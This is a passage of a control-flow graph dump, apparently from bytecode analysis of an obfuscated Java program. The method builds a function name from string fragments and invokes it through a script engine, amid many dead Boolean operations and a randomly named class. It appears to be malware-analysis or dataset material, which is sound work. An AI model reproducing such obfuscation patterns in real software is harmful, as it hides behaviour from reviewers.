    "push \"vtWSSgzZS4\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"vtWSSgzZS4\"";
    "push \"vtWSSgzZS4\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ghkww\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ghkww\"";
    "push \"Ghkww\""->"push 0";
    "push 0"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2";
    "interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2"->"store.r r1";
    "store.r r1"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"newarray";
    "store.r r0"
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"virtualinvoke <dhycnvdbqlpbdahs: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <dhycnvdbqlpbdahs: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto push 0"
    "pop"->"goto push 0";
    "goto push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"goto push 0";
    "goto push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "return"
    "pop"->"return";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r r0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r r0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r r2";
}
